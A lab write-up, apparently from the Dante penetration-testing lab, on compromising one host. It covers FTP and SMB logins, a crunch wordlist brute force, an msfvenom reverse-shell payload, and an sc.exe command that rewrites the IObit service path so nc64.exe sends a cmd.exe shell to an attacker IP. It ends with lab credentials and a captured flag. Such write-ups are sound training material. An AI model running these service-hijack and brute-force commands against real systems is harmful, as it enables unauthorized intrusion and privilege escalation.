








Host [172.16.1.101](http://172.16.1.101):




The credentials for FTP are:
```
tmentrso 65RedBalloons
```

For some reason, hydra, msfconsole could not guess this despite using the wordlists. I should find out why as I had to manually login with each uname and password from the excel file previously obtained from DC01.

After opening the downloaded file (remote login.txt), I obtained the following information.:


The password I found that has '5!' is balthazar's password.:
```
TheJoker12345!
```

Consider user 'tmodle' and the password from the above excel sheet from DC01 as well.



The correct credentials are:

However, there was nothing in there. So I created a wordlist to find the correct smb password to access the account for dharding.:
```
crunch 19 19 -t WestminsterOrange%% -o crunch.txt
```

After running the auxiliary/scanner/smb/smb\_login module with the newly created wordlist, I found the right one.:


```
Password: WestminsterOrange17
```

I found a file called qc that when opened, showed the following.:

In searching online, I quickly found out about an exploit for this service.:
<https://www.exploit-db.com/exploits/48543>

Command I used in MSF to generate the payload. From here, I need to set lport and lhost and run it to serve it publicly.:
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o IObit.exe
```

In this case, I am unable to transfer the file I created to the machine. I think I need to update THAT policy in order to allow this to actually go through.:


It took me a while to understand this. But basically, I need to modify the system path for the vulnerable service so it executes a payload for a reverse shell when it's restarted. To do this, I can upload nc.exe to the Desktop of dharding. From there, I need to change the path to the IOBitUnsvr with the following string.:
```
SC.exe CONFIG IObitUnsvr binPath= "C:\Users\dharding\Desktop\nc64.exe 10.10.16.101 4444 -e cmd.exe"
```
I found out that the reason I was having so much trouble was that I had been using the wrong netcat! I downloaded the nc64.exe and that worked flawlessly.


```
DANTE{Qu0t3_I_4M_secure!_unQu0t3}
```
